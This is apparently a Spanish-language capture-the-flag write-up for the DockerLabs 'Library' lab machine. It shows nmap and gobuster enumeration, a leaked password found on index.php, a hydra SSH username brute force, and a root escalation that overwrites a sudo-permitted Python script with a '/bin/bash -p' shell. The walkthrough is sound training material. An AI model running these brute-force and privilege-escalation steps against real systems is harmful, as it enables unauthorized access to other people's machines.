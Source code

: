 # Library
![library](https://github.com/TBrux/DOCKERLABS/assets/168732212/d36c54cb-c234-423e-ac6f-d3323a8a6cfd)

## Reconocimiento y Enumeración.

Comprobar que la máquina está en marcha.

```bash
❯ ping -c 1 172.17.0.2
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.036 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.036/0.036/0.036/0.000 ms

```

Una vez nos responde ping y ya podemos empezar enumerando la máquina. El ttl=64 nos puede indicar que sea una máquina **Linux**.

Lanzamos nmap para ver que puertos nos encuentra.

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn -oG allPorts 172.17.0.2
```
- `-sS`: Realiza un escaneo SYN.
- `-p-`: Escanea todos los puertos.
- `--open`: Muestra solo los puertos abiertos.
- `--min-rate 5000`: Establece la velocidad mínima de envío de paquetes a 5000 por segundo.
- `-vvv`: Genera una salida muy detallada y verbosa.
- `-n`: Evita la resolución de DNS inversa.
- `-Pn`: Omite la detección de hosts.
- `-oG allPorts`: Guarda los resultados en un archivo llamado "allPorts".
- `172.17.0.2`: La dirección IP del host objetivo.

```bash
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64

```

Como tenemos abiertos los puertos 22 y 80 vamos a comprobar la versión y lanzar unos scripts básicos de reconocimiento para ver que información obtenemos.

```bash
nmap -sCV -p22,80 -vvv -oN versionPorts 172.17.0.2
```
```
- `-sCV`: Escaneo de versiones y vulnerabilidades.
- `-p22,80`: Escaneo de los puertos 22 (SSH) y 80 (HTTP)..
- `-vvv`: Salida muy detallada y verbosa.
- `-oN versionPorts`: Guarda los resultados en "versionPorts".
- `172.17.0.2`: Dirección IP del host escaneado.
```
```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 f9:f6:fc:f7:f8:4d:d4:74:51:4c:88:23:54:a0:b3:af (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOE+AMUTmmJFie8NgXoV0LWMWmHQU2yXAMVJnPC/JPzRYOstWvVS+YjLNy2mNK2aKFi/ubqYfwGq5IkKZgXTUEA=
|   256 fd:5b:01:b6:d2:18:ae:a3:6f:26:b2:3c:00:e5:12:c1 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKaYjuffpq2p5LshURmRdGCPjM1gO/+OI5UZ4l37IkRF
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.58 (Ubuntu)
```
Como la versión de **ssh** no permiete la enumeracíon de puertos, y en el puerto 80 encontramos la página principal de **Aparche2** vamos a hacer fuzzing a la página y ver si encontramos alguna ruta interesante.
```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt,html
```
```
❯ gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt,html
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 275]
/index.php            (Status: 200) [Size: 26]
/index.html           (Status: 200) [Size: 10671]
/javascript           (Status: 301) [Size: 313] [--> http://172.17.0.2/javascript/]
/.html                (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================
```
Encontramos una página **index.php**, que si la visitamos encontramos lo que parece una contraseña.

![pass](https://github.com/TBrux/DOCKERLABS/assets/168732212/7b406527-b70f-43fe-b023-e103dbc53e5e)

## Explotación.

Con esta contraseña podemos probar a entrar por fuerza bruta por el puerto **ssh** (22).
```bash
hydra -L /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -p JIFGHDS87GYDFIGD ssh://172.17.0.2
```
```
❯ hydra -L /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -p JIFGHDS87GYDFIGD ssh://172.17.0.2
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-26 12:14:12
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 8295455 login tries (l:8295455/p:1), ~518466 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: carlos   password: JIFGHDS87GYDFIGD
```
Ya tenemos un usuario **carlos** y passsword **JIFGHDS87GYDFIGD**, por lo que nos conectamos por ssh.
```bash
❯ ssh carlos@172.17.0.2
The authenticity of host '172.17.0.2 (172.17.0.2)' can't be established.
ED25519 key fingerprint is SHA256:Hvih5sjfx4Qwfp0rb0aWHkFvIxZbFo+cyOaoqbCHXSI.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.17.0.2' (ED25519) to the list of known hosts.
carlos@172.17.0.2's password: 
Welcome to Ubuntu 24.04 LTS (GNU/Linux 6.5.0-kali3-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
carlos@fa0a812dce21:~$ 
```

## Escalada de privilegios.
Probamos a ver si encontramos algún archivo que podemos ejecutar con el usuario **carlos** pero con privilegios de **root**.
```bash
carlos@fa0a812dce21:~$ sudo -l
Matching Defaults entries for carlos on fa0a812dce21:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User carlos may run the following commands on fa0a812dce21:
    (ALL) NOPASSWD: /usr/bin/python3 /opt/script.py
```
```
carlos@fa0a812dce21:/opt$ ll
total 12
drwxr-xr-x 1 carlos root 4096 May 26 10:20 ./
drwxr-xr-x 1 root   root 4096 May 26 10:04 ../
-r-xr--r-- 1 carlos root  272 May  7 15:19 script.py
```
Como tenemos permisos de ese fichero podemos elimiar este fichero llamado **script.py** y crear otro para que nos lance una bash cuando lo ejecutemos, así como lo ejecutamos como **root**, ya tenemos control total.
```python
  GNU nano 7.2                                                                                                     script.py *                                                                                                             
import os

os.system('/bin/bash -p')
```
```bash
sudo -u root /usr/bin/python3 /opt/script.py 
```
```
carlos@fa0a812dce21:/opt$ sudo -u root /usr/bin/python3 /opt/script.py 
root@fa0a812dce21:/opt# whoami
root
```


